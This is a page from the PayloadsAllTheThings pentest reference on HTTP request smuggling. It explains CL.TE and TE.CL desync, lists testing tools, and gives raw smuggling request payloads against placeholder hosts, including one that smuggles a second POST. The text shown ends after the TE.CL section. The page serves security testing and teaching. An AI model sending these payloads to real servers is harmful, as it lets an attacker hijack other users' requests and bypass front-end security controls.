

repository: swisskyrepo/PayloadsAllTheThings · page: Request Smuggling/index.html · generator: mkdocs

# Request Smuggling

> HTTP Request smuggling occurs when multiple "things" process a request, but differ on how they determine where the request starts/ends. This disagreement can be used to interfere with another user's request/response or to bypass security controls. It normally occurs due to prioritising different HTTP headers (Content-Length vs Transfer-Encoding), differences in handling malformed headers (eg whether to ignore headers with unexpected whitespace), due to downgrading requests from a newer protocol, or due to differences in when a partial request has timed out and should be discarded.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [CL.TE Vulnerabilities](#clte-vulnerabilities)
    * [TE.CL Vulnerabilities](#tecl-vulnerabilities)
    * [TE.TE Vulnerabilities](#tete-vulnerabilities)
    * [HTTP/2 Request Smuggling](#http2-request-smuggling)
    * [Client-Side Desync](#client-side-desync)
* [Labs](#labs)
* [References](#references)

## Tools

* [bappstore/HTTP Request Smuggler](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646) - An extension for Burp Suite designed to help you launch HTTP Request Smuggling attacks
* [defparam/Smuggler](https://github.com/defparam/smuggler) - An HTTP Request Smuggling / Desync testing tool written in Python 3
* [dhmosfunk/simple-http-smuggler-generator](https://github.com/dhmosfunk/simple-http-smuggler-generator) - This tool is developed for burp suite practitioner certificate exam and HTTP Request Smuggling labs.

## Methodology

If you want to exploit HTTP Requests Smuggling manually you will face some problems especially in TE.CL vulnerability you have to calculate the chunk size for the second request(malicious request) as PortSwigger suggests `Manually fixing the length fields in request smuggling attacks can be tricky.`.

### CL.TE Vulnerabilities

> The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

### TE.CL Vulnerabilities

> The front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.You need to include the trailing sequence `\r\n\r\n` following the final 0.
